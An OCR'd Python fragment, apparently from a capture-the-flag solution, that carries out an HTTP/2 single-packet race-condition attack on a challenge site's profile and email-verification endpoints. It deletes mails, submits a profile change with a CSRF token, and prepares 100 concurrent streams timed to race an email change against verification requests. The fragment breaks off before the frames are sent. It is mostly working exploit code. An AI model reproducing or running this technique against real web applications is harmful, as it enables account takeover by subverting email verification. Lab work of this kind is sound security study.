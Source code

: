 ```python

urlDeleteMails = "https://"+host+":"+str(puerto)+"/email/deleteall/"

responseDeleteMails = requests.get(urlDeleteMails, verify=False)
#print(response.text)
# change this host name to new generated one

Headers = { "Cookie" : cookie, "content-type": "application/x-www-form-urlencoded" }
data="email=test%40email.htb&username=estes&fullName=test&antiCSRFToken="+CSRF
urlReset="https://"+host+":"+str(puerto)+"/challenge/api/profile"
responseReset = requests.post(urlReset, data=data, headers=Headers, verify=False)

print(responseReset.status_code)

h2_conn = H2OnTlsConnection(
hostname=host,
port_number=puerto
)

h2_conn.setup_connection()

try_num = 100

stream_ids_list = h2_conn.generate_stream_ids(number_of_streams=try_num)

all_headers_frames = []  # all headers frame + data frames which have not the last byte
all_data_frames = []  # all data frames which contain the last byte


for i in range(0, try_num):
last_data_frame_with_last_byte=''
if i == try_num/2:
header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(  # noqa: E501
method='POST',
headers_string=headersObjetivo,
scheme='https',
stream_id=stream_ids_list[i],
authority=host,
body=bodyObjetivo,
path='/challenge/api/profile'
)
else:
header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(
method='GET',
headers_string=headersVerification,
scheme='https',
stream_id=stream_ids_list[i],
authority=host,
body=".",
path='/challenge/api/sendVerification'
)

all_headers_frames.append(header_frames_without_last_byte)
all_data_frames.append(last_data_frame_with_last_byte)


# concatenate all headers bytes
temp_headers_bytes = b''
for h in all_headers_frames:
temp_headers_bytes += bytes(h)

```